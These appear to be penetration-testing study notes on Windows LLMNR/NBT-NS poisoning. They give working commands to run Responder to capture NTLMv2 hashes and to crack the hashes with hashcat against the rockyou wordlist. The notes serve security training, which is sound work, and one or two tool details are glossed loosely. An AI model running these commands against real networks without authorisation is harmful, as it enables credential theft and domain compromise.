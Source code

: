 We will abuse features of Windows.
Know these 5 attacks: Top Five Ways I Got Domain Admin - [https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

# LLMNR Poisoning Overview
_Link-Local Multicast Name Resolution_ (LLMNR) and NetBIOS are two name resolution services built in to Windows **to help systems find address names from other devices on the network**.
- used to identify hosts when DNS fails to do so
- previously NBT-NS
- KEY FLAW - the services utilize a user's username and NTLMv2 hash when appropriately responded to

LLMNR = mitm attack
1. We run `Responder` for LLMNR poisoning
- In engagement, Heath runs first thing in the morning >> need a lot of traffic, trying to capture hashes
```bash
python Responder.py -l tun0 -rdw
```
2. An event occurs
3. Observe, get the hashes 
4. Crack hashes in hashcat
```bash
hashcat -m 5600 hashes.txt rockyou.txt
```

## Capturing NTLMv2 Hashes with Responder
*need impacket installed*
```bash
#first tab
responder -I eth0 -rdwv #most common options

```

```bash
#second tab, will need one for hashcat
```

## Password Cracking with Hashcat
**Always run on BASE OS to utilize graphics card**
https://hashcat.net/hashcat/ --- download binaries 
If cracking in Kali / VM:
```bash
#save and copy hash from responder
hashcat -m 5600 ntlmhas.txt rockyou.txt # -m = module, 5600 = number
```
If Local: have directory for hashcat >> save and copy file of hashes to local directory >> start local terminal 
```powershell
cd c:\users\[user]\desktop\hashcat-4.2.1 #select path of directory
hashcat64.exe -m 5600 [hash file name] rockyou.txt -o #o = optimized, best practice to use
```
